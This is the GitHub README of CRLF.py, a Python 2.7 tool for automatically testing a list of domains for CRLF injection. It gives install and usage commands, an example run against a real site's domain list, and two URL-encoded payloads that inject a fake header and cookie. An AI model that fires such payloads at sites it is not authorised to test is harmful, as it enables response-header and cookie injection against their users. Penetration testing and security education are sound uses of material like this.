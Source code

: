 # CRLF.py
CRLF - Auto CRLF Injector

Author: [Rudra Sarkar](https://twitter.com/rudr4_sarkar)

Disclaimer: I am not responsible for any damage done using this tool. This tool should only be used for educational purposes and for penetration testing.

### Compatibility:
* Any platform using Python 2.7

### Requirements:
* Python 2.7
* Modules: requests

### Install Requests Modules:
`$ pip install requests`

### Usage:
$ python crlf.py

Use $ python crlf.py [domain_list.ext] [crlf_payload]

e.g $ python crlf.py mail.ru.list /%0aevil-here:malicious_cookie1

# Payloads:
### /%0aevil-here:malicious_cookie1
### /%0d%0aevil-here:malicious_cookie1

# Screenshot:

### Process:
 
![Process](https://raw.githubusercontent.com/rudSarkar/crlf-injector/master/process.png)
 
Regards!

[Rudra Sarkar](https://twitter.com/rudr4_sarkar)
